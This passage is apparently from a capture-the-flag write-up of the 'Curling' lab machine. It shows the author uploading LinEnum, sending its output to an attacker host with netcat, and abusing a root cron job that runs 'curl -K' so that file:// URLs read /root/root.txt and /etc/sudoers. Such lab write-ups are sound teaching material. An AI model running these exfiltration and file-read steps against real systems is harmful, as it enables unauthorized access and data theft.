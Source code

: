
I upload LinEnum with `sudo python -m SimpleHTTPServer` and `wget 10.10.14.70:8000/LinEnum.sh`.


```
floris@curling:~$ chmod 777 LinEnum.sh
floris@curling:~$ ./LinEnum.sh > enum.txt
floris@curling:~$ nc 10.10.14.70 1440 < enum.txt
```

And recieve the file with: `sudo nc -nlvp 1440 > enum.txt`

Under "Running Processes" I see this:

"root      5700  0.0  0.0   4628   856 ?        Ss   00:37   0:00 /bin/sh -c curl -K /home/floris/admin-area/input -o /home/floris/admin-area/report"

And it happens multiple times.

So what does this command do?

by running `man curl` (manual for the curl program) we find this:

```
 -K, --config <file>

              Specify a text file to read curl arguments from. The command line arguments found in the text file will be used as if they
              were provided on the command line
```


So root is running a command to run curl (commands from input file) and outputting it to report.

So we can essentially change input to whatever we want, and root will run it for us, let's try:

I googled curl exploits/privesc a bit, and found this: https://gtfobins.github.io/gtfobins/curl/ 

The file reading makes sense. It's like when you read a local pdf file in the browser. 

We can just input whatever system file we want after file://

here, I am doing `url = "file:///root/root.txt"`

This should just result in the root file being output into the report.

I save the file, and wait for report to change:

```
floris@curling:~/admin-area$ cat report
WARNING: Failed to daemonise.  This is quite common and not fatal.
Connection timed out (110)
floris@curling:~/admin-area$ cat report
82c198ab6fc53xxxxxxxxxxxxxxxxxxx
```

So this completes the box. But what if we want to get root?

I change the url to: `url = "file:///etc/sudoers"`

And I then get this:

```
floris@curling:~/admin-area$ cat report
#
# This file MUST be edited with the 'visudo' command as root.
#
# Please consider adding local content in /etc/sudoers.d/ instead of
# directly modifying this file.
#
# See the man page for details on how to write a sudoers file.
#
Defaults        env_reset
Defaults        mail_badpass
Defaults        secure_path="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin"
```